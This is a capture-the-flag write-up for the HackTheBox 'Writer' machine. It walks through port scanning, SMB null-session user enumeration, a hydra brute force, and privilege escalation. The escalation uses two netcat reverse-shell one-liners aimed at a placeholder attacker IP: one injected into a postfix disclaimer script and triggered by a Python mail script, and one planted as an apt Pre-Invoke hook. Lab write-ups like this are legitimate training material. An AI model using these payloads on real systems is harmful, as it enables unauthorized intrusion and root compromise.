 
# HackTheBox(HTB) - Writer - WriteUp

> Austin Lai | November 19th, 2021

---

<!-- Description -->

![writer](img/writer.png)

Difficulty: Easy

The room is completed on November 17th, 2021

<!-- /Description -->

## Table of Contents

<!-- TOC -->

- [HackTheBoxHTB - Writer - WriteUp](#hacktheboxhtb---writer---writeup)
    - [Table of Contents](#table-of-contents)
    - [Let's Begin Here !!!](#lets-begin-here-)
        - [Network Reconnaissance](#network-reconnaissance)
        - [Web Fuzzing](#web-fuzzing)
        - [SMB Enumeration](#smb-enumeration)
        - [Login via SSH](#login-via-ssh)
        - [Privilege Escalation - Root](#privilege-escalation---root)

<!-- /TOC -->

---

## Let's Begin Here !!!

Start the instance and perform rustscan for network reconnaissance.

### Network Reconnaissance

Rustscan:

```bash
.----. .-. .-. .----..---.  .----. .---.   .--.  .-. .-.
| {}  }| { } |{ {__ {_   _}{ {__  /  ___} / {} \ |  `| |
| .-. \| {_} |.-._} } | |  .-._} }\     }/  /\  \| |\  |
`-' `-'`-----'`----'  `-'  `----'  `---' `-'  `-'`-' `-'
The Modern Day Port Scanner.
________________________________________
: https://discord.gg/GFrQsGy           :
: https://github.com/RustScan/RustScan :
 --------------------------------------
😵 https://admin.tryhackme.com
[~] The config file is expected to be at "/root/.rustscan.toml"
[~] Automatically increasing ulimit value to 5000.
Open 10.10.11.101:22
Open 10.10.11.101:80
Open 10.10.11.101:139
Open 10.10.11.101:445
[~] Starting Script(s)
[>] Script to be run Some("nmap -vvv -p {{port}} {{ip}}")
[~] Starting Nmap 7.92 ( https://nmap.org ) at 2021-11-14 21:13 +08

PORT    STATE SERVICE     REASON         VERSION
22/tcp  open  ssh         syn-ack ttl 62 OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
80/tcp  open  http        syn-ack ttl 62 Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
139/tcp open  netbios-ssn syn-ack ttl 62 Samba smbd 4.6.2
445/tcp open  netbios-ssn syn-ack ttl 62 Samba smbd 4.6.2
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Completed NSE at 21:14, 0.00s elapsed
Nmap done: 1 IP address (1 host up) scanned in 13.59 seconds
           Raw packets sent: 4 (176B) | Rcvd: 4 (176B)
```

### Web Fuzzing

Check on port 80 - HTTP.

StoryBank:

![storybank](img/storybank.png)

About page:

![about-page](img/about-page.png)

Notice there is an email given in the about page, and a domain as well.

We can add into our host file for easy access.

And we perform a web fuzzing through gobuster directories listing and it does not contain much information.

Gobuster:

```
http://10.10.11.101/about                (Status: 200) [Size: 3522]
http://10.10.11.101/contact              (Status: 200) [Size: 4905]
http://10.10.11.101/dashboard            (Status: 302) [Size: 208] [--> http://10.10.11.101/]
http://10.10.11.101/logout               (Status: 302) [Size: 208] [--> http://10.10.11.101/]
http://10.10.11.101/server-status        (Status: 403) [Size: 277]
http://10.10.11.101/static               (Status: 301) [Size: 313] [--> http://10.10.11.101/static/]
```

We have also tried nikto scan and gobuster vhost scan, nothing yield a positive result.

### SMB Enumeration

From the rustscan, we know there is smb service available.

We try to check on the service using ` smbclient `

![smb-listing](img/smb-listing.png)

If you check against smbmap, there is no anonymous access.

After GOOGLE awhile, there is an article regarding enumeration done via rpcclient for null sessions, you can check out [here](https://infinitelogins.com/2020/06/17/enumerating-smb-for-pentesting/)

First, let's test for null or authenticated session of smb:

![null-session-rpcclient-smb](img/null-session-rpcclient-smb.png)

That's a great start, we now login in !

Following the article, we can try enumerate user from the session using ` enumdomusers ` and ` queryuser ` command.

![enum-user-from-rpcclient-null-session](img/enum-user-from-rpcclient-null-session.png)

Since we only have a valid username, there is no other way to get the password, so might as well we go for hydra.

After a while, we are getting the password from hydra.

![hydra-result](img/hydra-result.png)

### Login via SSH

As we get the password for our valid user, we now ssh in to the system and get the user.txt

We check sudo and suid, but nothing positive come back.

Then, we go for very basic to check if other user or group available in the system.

From the ` /etc/passwd `, we know that there is another user exist in the system.

From ` id ` command, we know that current user belong to one of the group ` filter `.

We then check if any file or folder readable by current user that is belong to the ` filter ` group, and here what we found.

![file-by-filter-group](img/file-by-filter-group.png)

Checking the content of ` /etc/postfix/disclaimer `

![content-of-disclaimer](img/content-of-disclaimer.png)

From the ` disclaimer `, it is a shell script that to process email once user received an email.

We check if we have write permission, and we have !

![write-permission-disclaimer](img/write-permission-disclaimer.png)

Great, we can append payload into it, in our case, we append reverse shell into it.

Reverse shell payload:

```bash
echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc YOUR_IP 9001 >/tmp/f" > /etc/postfix/disclaimer
```

However, the reverse shell did not work and we check the script again; it revert to default state.

As mentioned, the script will only run when a user receive an email.

So, we decided to write a [simple python send mail script](sendmail.py) with our current user.

```python
import smtplib

hostname = '127.0.0.1'
sender_email = 'REDACTED@writer.htb'
port = 25
receiver_email = 'REDACTED@writer.htb'
message = ' Send email to john '

try:
	server = smtplib.SMTP(hostname,port)
	server.ehlo()
	server.sendmail(sender_email, receiver_email, message)
except Exception as e:
	print(e)
finally:
	server.quit()
```

And voila, we have reverse shell.

![reverse-shell](img/reverse-shell.png)

We then check the user home directory and there is ssh key, we copy over and we now can ssh in using the ssh key.

### Privilege Escalation - Root

From here, we start off basic enumeration and nothing to be found.

Again, checking the ` id ` command, this time; the user belong to ` management ` group.

![management-group](img/management-group.png)

Once again, we check if any file or folder readable by current user that is belong to the ` management ` group, and here what we found.

![folder-management-group](img/folder-management-group.png)

Interesting, quick research will give you an article on [APT PrivEsc](https://www.hackingarticles.in/linux-for-pentester-apt-privilege-escalation/)

There is one specific section talk about ` /etc/apt/apt.conf.d `

The payload to PrivEsc:

```bash
cd /etc/apt/apt.conf.d

echo 'apt::Update::Pre-Invoke {"rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc YOUR_IP 9001 >/tmp/f"};' > pwn
```

And here you go with root access of reverse shell.

![root-reverse-shell](img/root-reverse-shell.png)

<br />

---

> Do let me know any command or step can be improve or you have any question you can contact me via THM message or write down comment below or via FB

